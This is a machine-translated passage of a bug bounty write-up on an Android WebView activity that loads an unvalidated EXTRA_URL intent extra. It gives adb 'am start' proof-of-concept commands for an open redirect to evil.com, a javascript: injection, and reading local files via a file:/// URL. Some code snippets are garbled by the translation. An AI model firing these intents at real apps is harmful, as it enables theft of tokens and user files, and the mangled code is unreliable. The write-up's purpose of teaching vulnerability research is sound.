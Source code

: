 (注意，当使用多个查询参数时，我们需要在前面加一个“”

**例如:**

片段#1

**代码:**→**" intent . putextra(" EXTRA _ URL "，str)；"**

*   在 android 中“putExtra(String name，str)”用于将扩展数据添加到意图中。它有两个参数，第一个指定了额外数据的名称，第二个参数是数据本身。

片段#2

**代码:**→**loadUrl(getintentent()。getstring EXTRA(" EXTRA _ URL ")；"**

*   在这种情况下，getIntent()返回启动该活动的意图。如果你用一些数据开始一项活动。让我们把它变得非常简单和简短， **"intent.putExtra("EXTRA_URL "，str)；"**的意思是，你可以把“EXTRA_URL”看成一个变量&**getStringExtra(" EXTRA_URL "))**这里用来从“EXTRA _ URL”变量中获取数据或值。

**概念验证重现 OpenRedirect:**

```
am start -W -n app.company/.ui.events.web.WebViewActivity -a ACTION_OPEN_WEB -e EXTRA_URL [https://evil.com](https://evil.com)
```

**重现 Javascript 注入:**

```
am start -n app.company/.ui.events.web.WebViewActivity -a ACTION_OPEN_WEB -e EXTRA_URL "javascript://google.com%0A alert(lol);"
```

**复制本地文件窃取:**该 bug 可以:

→在应用沙箱中显示令牌、授权、配置等

→在应用沙盒中显示用户数据

→如果允许，访问“/sdcard”数据

```
am start -n app.company/.ui.events.web.WebViewActivity -a ACTION_OPEN_WEB -e EXTRA_URL 'file:///sdcard/personal.txt'
```

工具:[https://github.com/mzfr/slicer](https://github.com/mzfr/slicer)

参考资料:

 [## 移动应用渗透测试平台

### APK 文件和信息收集获取 APK 文件和收集信息直接从客户端获取应用程序…

mobexler.com](https://mobexler.com/checklist.htm)  [## 太棒了-亚洲开发银行

### Android 调试桥(ADB)是包含在 Android SDK 包中的一个工具包，它不仅是一个强大的工具…

mazhuang.org](https://mazhuang.org/awesome-adb/README.en.html) [](https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/mobile.md) [## naham sec/初学者资源-Bug-赏金猎人

### 因为有相当多的人要求手机黑客入门指南，我们特别给了它一个章节…
